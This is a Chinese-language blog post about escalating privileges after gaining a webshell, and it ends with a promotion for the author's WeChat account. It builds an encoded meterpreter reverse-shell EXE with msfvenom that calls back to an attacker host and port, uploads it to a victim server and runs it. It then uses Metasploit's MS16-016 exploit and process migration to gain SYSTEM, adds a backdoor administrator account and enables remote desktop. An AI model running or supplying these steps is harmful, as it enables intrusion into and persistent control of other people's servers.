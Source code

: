 ```yaml
---
layout: post
category: binghe-code-hack
title: MSF提权
tagline: by CurleyG
tag: [hack,binghe-code-hack]
excerpt: MSF提权
lock: need
---
```


# MSF提权

在WEB渗透中当我们拿到webshell了，我们可以试试用MSF(metasploit)来进行提权，在MSF里meterpreter很强大的！

我们先用msfvenom生成一个EXE的木马后门。

```bash
msfvenom -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai -i 5 -b '\x00' LHOST=192.168.1.7 LPORT=4444 -f exe > abc.exe
```

![img](https://img-blog.csdnimg.cn/20190106221604920.jpg)

然后在到MSF根据刚才配置的木马后门进行监听...

然后在把木马上传到服务器（受害者）的机器里，必须上传到可读可写的目录下

![img](https://img-blog.csdnimg.cn/20190106221651573.jpg)

比如这里我吧abc.exe上传到了C:\users\leak\desktop\目录下，

abc.exe就是我刚才生成的后门。

![img](https://img-blog.csdnimg.cn/20190106221723788.jpg)

然后在执行我们的后门，可以看见MSF弹回了一个session 1(会话连接)。

说明我们后门程序成功执行起来了，当然你也可以在webshell执行的，

但必须的有一点执行的权限

![img](https://img-blog.csdnimg.cn/2019010622180692.jpg)

getuid //可以看见我们的权限很低的，一般都是user权限的，

但也遇到过某些服务器执行后就直接是system最高权限。像这种我们就直接加用户啦。

这里我们是user权限，我们要把它提升到system权限。Windows最高权限

![img](https://img-blog.csdnimg.cn/20190106221851139.jpg)

接着我们输入命令

background   //把你当前的metasploit shell转为后台执行。

search ms16  // 搜索关键字相关的漏洞

.....然后我选择了MS16-016这个漏洞在进行提权

use exploit/windows/local/ms16_016_webdav //  选择漏洞

![img](https://img-blog.csdnimg.cn/20190106221937551.jpg)

show options  //查看漏洞里边要设置的参数

可以看见只有一个SESSION参数要设置 

![img](https://img-blog.csdnimg.cn/20190106222107730.jpg)

set  SESSION 1 // 设置会刚才我们后门连接的ID号 1

exploit //执行提权...

可以看见成功的吧漏洞利用到了PID为692的进程中...

虽然提权成功了 但你getuid下还是看见的是user权限

![img](https://img-blog.csdnimg.cn/2019010622214883.jpg)

ps一下查看进程

根据刚才的提示找到PID 692的进程

可以看见确实是system权限

![img](https://img-blog.csdnimg.cn/20190106222225510.jpg)

所以我们还要用到migrate 命令 //迁移到一个指定的进程ID。

migrate 692  //

在getuid下可以看见为system权限啦

提权成功了

![img](https://img-blog.csdnimg.cn/20190106222259401.jpg)

既然有了system权限 那我们在添加账号hack

添加为管理员组

![img](https://img-blog.csdnimg.cn/20190106222350540.jpg)

用Nmap扫下并没有开启远程登陆3389

![img](https://img-blog.csdnimg.cn/20190106222445235.jpg)

run getgui -e  //开启目标主机3389  貌似这条MSF命令只对2003的系统有效 执行几次都没成功 

所以就用cmd命令开了3389端口

![img](https://img-blog.csdnimg.cn/20190106222845638.jpg)

提权成功，登录服务器。。。

## 写在最后

> 如果你觉得冰河写的还不错，请微信搜索并关注「 **冰河技术** 」微信公众号，跟冰河学习高并发、分布式、微服务、大数据、互联网和云原生技术，「 **冰河技术** 」微信公众号更新了大量技术专题，每一篇技术文章干货满满！不少读者已经通过阅读「 **冰河技术** 」微信公众号文章，吊打面试官，成功跳槽到大厂；也有不少读者实现了技术上的飞跃，成为公司的技术骨干！如果你也想像他们一样提升自己的能力，实现技术能力的飞跃，进大厂，升职加薪，那就关注「 **冰河技术** 」微信公众号吧，每天更新超硬核技术干货，让你对如何提升技术能力不再迷茫！


![](https://img-blog.csdnimg.cn/20200906013715889.png)
